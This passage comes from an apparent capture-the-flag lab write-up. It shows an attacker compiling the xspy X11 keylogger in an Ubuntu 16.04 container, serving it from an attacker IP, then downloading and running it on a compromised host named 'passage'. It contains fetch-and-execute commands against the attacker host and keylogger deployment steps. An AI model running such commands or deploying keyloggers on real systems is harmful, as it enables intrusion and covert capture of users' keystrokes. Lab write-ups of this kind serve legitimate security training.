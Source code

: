 #### Xspy - Keylogging

Need to setup a Ubuntu 16.04 container to compile **xspy** with proper `LIBC` version

```bash
nadav@passage:/tmp$ wget http://10.10.14.9:81/xspy -O /tmp/xspy && chmod +x /tmp/xspy && /tmp/xspy
--2024-02-07 22:22:31--  http://10.10.14.9:81/xspy
Connecting to 10.10.14.9:81... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14416 (14K) [application/octet-stream]
Saving to: ‘/tmp/xspy’

/tmp/xspy                                            100%[===================================================================================================================>]  14.08K  --.-KB/s    in 0.09s

2024-02-07 22:22:31 (160 KB/s) - ‘/tmp/xspy’ saved [14416/14416]

/tmp/xspy: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/xspy)
```

```bash
nadav@passage:/tmp$ cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Setup docker container

```bash
sudo docker pull ubuntu:16.04
sudo docker run -v /tmp:/tmp -it ubuntu:16.04 bash
```

```bash
apt update && apt install make golang-go ca-certificates git curl zip wget -y
apt-get install -y libx11-dev
```

Build **xspy**

```bash
cd /tmp
wget https://raw.githubusercontent.com/mnp/xspy/master/xspy.c
gcc xspy.c -o xspy -lX11
```

Transfer file

```bash
┌──(bravosec㉿fsociety)-[/tmp]
└─$ serv serve --http 81 -f xspy
```

```bash
nadav@passage:/tmp$ wget http://10.10.14.9:81/xspy -O /tmp/xspy && chmod +x /tmp/xspy
```

Nothing happened

```bash
nadav@passage:/tmp$ /tmp/xspy -display :0
Wed Feb  7 22:25:38 2024
```